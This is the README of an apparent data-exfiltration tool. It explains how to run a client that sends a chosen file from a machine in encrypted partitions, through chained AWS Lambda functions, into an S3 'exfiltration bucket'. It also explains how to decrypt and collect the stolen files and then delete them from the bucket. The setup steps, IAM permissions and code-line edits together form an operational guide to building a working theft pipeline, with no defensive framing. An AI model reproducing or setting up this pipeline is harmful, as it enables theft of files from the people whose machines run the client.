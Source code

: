 # standaloneClient
## Usage
#### Client
`py clientName.py "Path_to_file"`  
Example:  
`py clientName.py "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket
`py decrypter.py "Hostname" "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py "ID4A0E" "test"`
## Setup

Here we will discuss how to set up a working client for data exfiltration.

###### Note 1: Use python 3.x
###### Note 2: Be careful when using AWS Regions, specially when creating lambda functions and S3 buckets.
###### Note 3: Try to follow the steps in order

#### Client Setup
Open `standaloneClient_template.py` and modify the following lines with desired values.  

*Line 11*  Modify partition size  
`partitionSize = 100 #Change for desired partition size`  
*Line 42*  Modify Orchestrator function name (Remember it)  
`orq_response = self.aws_lambda.invoke(FunctionName = '<ORCHESTRATOR_FUNCTION_NAME>', 
                                       Payload = orqPayload_json)`  
*Line 85* Modify with AWS Keys  
`client.awsConnect('<ACCESS_KEY_ID>','<SECRET_ACCESS_KEY_ID>','<REGION>')`  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

#### S3 Console
We will now create 2 buckets.  
The **exfiltration bucket** in which we will save out exfiltrated files (their partitions).  
The **template bucket** in which we will save the template used for creating the lambda functions required.  
(If the above sounds like gibberish, refer to the explanation on how the exfiltration works)  

Create 2 buckets with default config and remember their names. One will be used for exfiltration and the other one for our templates.  

#### Sample Function Setup
Open `sampleFunction_template.py`.  
*Line 6*  Modify with the exfiltration bucket name  
`bucket_name = "<EXFILTRATION_BUCKET_NAME>"`  

Compress the function and upload it to the template bucket created before. Remember the compressed function name. We should now have a sampleFunction_template.zip inside our template bucket.  

#### Lambda console setup
Create a lambda function called `<Insert orchestrator name>`.  
Give the function the role previously created. This can be done by scrolling down a bit one the function is created.  

Copy and paste the contents of `orchestrator_template.py` into the newly created lambda function.  

*Line 26*  Modify IAM Role ARN  
`Role = '<LAMBDA_S3_IAM_ROLE>'`  
*Line 29*  Modify Template Bucket Name  
`'S3Bucket': '<TEMPLATES_BUCKET>'`  
*Line 30* Modify Compressed function name  
`'S3Key': '<COMPRESSED_FUNCTION_NAME>'`  

Increase the timeout of this function to 1 minute and memory to 512MB  

#### Decrypter Setup
Files saved inside our exfiltration bucket are encrypted so... we ned a way to decrypt them. Lets se how to do this.  

Open `sampledecrypter_template.py`  

*Line 7*  Modify fernet key. The key can be generated in a separate script with `Fernet.generate_key()`  
`key = b'<FERNET_KEY>'`  
*Line 23-25*  Modify AWS Tokens and region  
`session = boto3.session.Session(aws_access_key_id = '<AWS_ACCESS_KEY_ID>',
 								aws_secret_access_key = '<AWS_SECRET_ACCESS_KEY_ID>',
 								region_name = 'us-east-2')`  
*Line 31,58,80,82* Modify Exfiltration bucket name  
`31- Bucket = '<EXFILTRATION_BUCKET_NAME>'`  
`58- aws_s3_resource.meta.client.download_file('<EXFILTRATION_BUCKET_NAME>', file, 'downloadedFiles/'+name)'`  
`80- bucket = aws_s3_resource.Bucket('<EXFILTRATION_BUCKET_NAME>')`  
`82- aws_s3_resource.Object('<EXFILTRATION_BUCKET_NAME>', file).delete()`  
